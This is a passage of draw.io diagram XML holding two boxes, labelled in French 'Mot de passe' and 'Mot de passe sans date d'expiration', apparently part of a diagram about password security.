        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-20" value="&lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(255, 255, 255); text-decoration-style: initial; text-decoration-color: initial; color: rgb(0, 0, 0); line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW98094209 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;/span&gt;&lt;/font&gt; &lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(255, 255, 255); text-decoration-style: initial; text-decoration-color: initial; color: rgb(0, 0, 0); line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW98094209 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW98094209 BCX7&quot;&gt;Mot de passe sans date d&#39;expiration&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(255, 255, 255); text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif; color: rgb(0, 0, 0);&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW98094209 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="440" y="1361" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-21" value="Mot de passe" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="40" y="1351" width="120" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
